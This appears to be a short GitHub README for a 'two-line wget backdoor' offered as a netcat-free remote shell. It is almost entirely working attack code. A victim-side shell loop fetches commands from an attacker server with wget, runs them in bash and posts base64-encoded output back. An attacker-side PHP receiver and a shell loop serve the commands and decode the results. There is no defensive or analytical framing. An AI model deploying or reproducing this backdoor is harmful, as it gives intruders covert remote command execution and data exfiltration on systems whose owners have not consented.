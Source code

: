 # Two_lines_wget backdoor

No netcat ? Try this !

## Victim session

### connect_back.sh
```sh
while true ; do sleep 1 ; cmd=$(wget -q -O - 'http://127.0.0.1:3000/'|grep .) && ret=$(echo "$cmd"|bash|base64 -w0) && wget -q -O /dev/null --post-data="d=$ret" "http://127.0.0.1:3000/get.php" ; done
```

## Attacker session

### get.php
```php
<?php file_put_contents("result.txt",$_POST["d"]); ?>
```

### server.sh
```sh
while true ; do printf "$ " ; printf "" > result.txt ; read cmd ; echo "$cmd" > index.html ; while true ; do grep -sq . result.txt && break ; done ; printf "" > index.html ; base64 -d result.txt ; done
```
